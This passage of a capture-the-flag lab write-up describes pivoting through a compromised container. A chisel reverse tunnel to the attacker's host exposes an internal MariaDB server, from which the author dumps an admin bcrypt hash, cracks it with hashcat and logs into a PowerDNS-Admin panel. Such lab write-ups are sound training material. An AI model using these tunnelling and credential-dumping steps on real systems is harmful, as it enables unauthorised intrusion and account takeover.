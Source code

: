 From earlier scanning, I also saw MySQL running on 172.18.0.4. I updated the chisel tunnel to access it too.
```bash
root@5ac6c7d6fb8e:~# ./chisel client 10.10.14.60:8000 \
>   R:127.0.0.1:3306:172.18.0.4:3306 \
>   R:127.0.0.1:8081:172.18.0.5:8081
2025/08/09 12:12:10 client: Connecting to ws://10.10.14.60:8000
2025/08/09 12:12:11 client: Connected (Latency 31.582551ms)

```
After creating a proxy we can connect to MySql locally.
```bash
└─$ mysql -h 127.0.0.1 -P 3306 -u root -p

Enter password: 
WARNING: option --ssl-verify-server-cert is disabled, because of an insecure passwordless login.
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 53
Server version: 11.3.2-MariaDB-1:11.3.2+maria~ubu2204 mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 

```
Inside the powerdnsadmin database, the user table contained an admin bcrypt hash

```mysql
MariaDB [powerdnsadmin]> select * from user;
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
| id | username | password                                                     | firstname | lastname | email          | otp_secret | role_id | confirmed |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
|  1 | admin    | $2b$12$s1hK0o7YNkJGfu5poWx.0u1WLqKQIgJOXWjjXz7Ze3Uw5Sc2.hsEq | admin     | admin    | admin@build.vl | NULL       |       1 |         0 |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+

```
After cracking it with hashcat, I logged into the port 8081 interface as admin.
<img width="1275" height="1277" alt="2025-08-08 141348" src="https://github.com/user-attachments/assets/1de18d18-9323-443e-9d80-a6303c618055" />

To be continued…


